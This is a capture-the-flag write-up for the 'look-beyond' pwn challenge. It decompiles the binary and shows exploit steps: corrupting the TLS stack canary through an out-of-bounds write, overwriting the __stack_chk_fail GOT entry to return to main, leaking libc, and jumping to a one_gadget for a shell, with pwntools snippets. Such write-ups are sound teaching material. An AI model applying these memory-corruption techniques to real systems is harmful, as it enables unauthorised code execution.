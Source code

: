 
## look-beyond
### Description

> Beyond the Aquila Rift, or is it in between?
> nc pwn.byteband.it 8000
> Update
> Remote kernel is
> Linux 4.15.0-1057-aws #59-Ubuntu SMP Wed Dec 4 10:02:00 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

### Attachment

[chall](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ByteBanditsCTF2020/pwn/chall/chall)

### Analysis

#### Environment

We can got the OS from the `dockerfile`:

```shell
% cat Dockerfile 
FROM ubuntu:18.04
```

> so the remote environment is same as our local ubuntu 18.04  

#### main function

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3){
  unsigned __int64 size; // ST00_8
  _BYTE *ptr; // ST08_8
  void *buf; // ST18_8
  char v7; // [rsp+20h] [rbp-30h]
  unsigned __int64 v8; // [rsp+48h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  if ( dword_60107C )
  {
    if ( dword_60107C == 1 )
    {
      a2 = &puts;
      printf("puts: %p\n", &puts, a3);
    }
  }
  else
  {
    setvbuf(stdout, 0LL, 2, 0LL);
    a2 = 0LL;
    setvbuf(stdin, 0LL, 2, 0LL);
  }
  printf("size: ", a2);
  size = get_ul(&v7);
  ptr = malloc(size);
  printf("idx: ", size);
  ptr[get_ul(&v7)] = 1;
  printf("where: ");
  buf = get_ul(&v7);
  printf("%ld", buf);
  read(0, buf, 8uLL);
  dword_60107C = 1;
  return 0LL;
}
```

* at the beginning of `main`, if `dword_60107C==1` ,  `puts` address would be leaked

  > that means we should return to `main` again

* set `chunk[idx]` to `1` after any size of chunk allocated

* overwrite anywhere with 8 bytes any values

* at the end of `main`, set `dword_60107C` to `1` 

### Solution

We can hack `canary` to solve this challenges.

#### find stack_guard

`stack_guard` was the ptr pointed to `canary` in a struct of  `Thread Local Storage` 

> **Thread-local storage** (**TLS**) is a computer programming method that uses [static](https://en.wikipedia.org/wiki/Static_memory_allocation) or global [memory](https://en.wikipedia.org/wiki/Computer_storage) local to a [thread](https://en.wikipedia.org/wiki/Thread_(computing)). 

```c
typedef struct  
{  
  void *tcb;        /* Pointer to the TCB.  Not necessarily the  
               thread descriptor used by libpthread.  */  
  dtv_t *dtv;  
  void *self;       /* Pointer to the thread descriptor.  */  
  int multiple_threads;  
  int gscope_flag;  
  uintptr_t sysinfo;  
  uintptr_t stack_guard;  
  uintptr_t pointer_guard;  
  ...  
} tcbhead_t;  
```

We can find the address of  `stack_guard` by searching memory in `gdb`.

At the beginning of `main`,  `canary` was putted into stack:

```c
   0x4007de    mov    rax, qword ptr fs:[0x28]
 ► 0x4007e7    mov    qword ptr [rbp - 8], rax
```

search it: 

```c
pwndbg> search -8 0x9435c714eedda900
                0x7ffff7fe44e8 0x9435c714eedda900
```

![](http://image.taqini.space/img/20200412233253.png)

> gdb runnin in Ubuntu 18.04

the address of `stack_guard` was between `ld-2.27.so` and `stack`

#### Modify canary in TLS

the address of a large allocated memory (e.g. 1000000 bytes)  was near the address of `libc` and `ld`

![](http://image.taqini.space/img/20200412234901.png)

```c
search -8 0x9435c714eedda900
                0x7ff50f4b24e8 0x9435c714eedda900
pwndbg> p $rax
$6 = 140690499289104
pwndbg> p/x $rax
$7 = 0x7ff50f3bc010
pwndbg> p 0x7ff50f4b24e8-0x7ff50f3bc010
$8 = 1008856
```

and the offset between of `chunk` and `stack_guard` doesn't change

so we can allocate a 1000000 bytes chuck and modify canary to trigger `__stack_chk_fail`:

```python
se('1000000')  # size
se('1008857')  # index
```

#### back to main

then overwrite GOT of `__stack_chk_fail` with address of `main` 

```python
se('1000000')  # size
se('1008857')  # index
se('6295576')  # where
se(p64(main))  # content
```

so that we can back to `main` again and the real address of `puts` in libc would be leaked:

```python
ru('puts: ')
puts = eval(rc(14))
```

#### one gadget

```python
libcbase = puts-libc.sym['puts']
info_addr('libcabse',libcbase)
og = [324293,324386,1090444]

se('1000000')
se('2012376')
se('6295576')
se(p64(libcbase+og[1]))
```

modify `canary` again and overwrite GOT of `__stack_chk_fail` with the address of`one_gadget` to getsehll.

### More

the offset is not same between different OS, so we have to download an ubnutu 18.04 environment

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/ByteBanditsCTF2020/pwn/chall) 

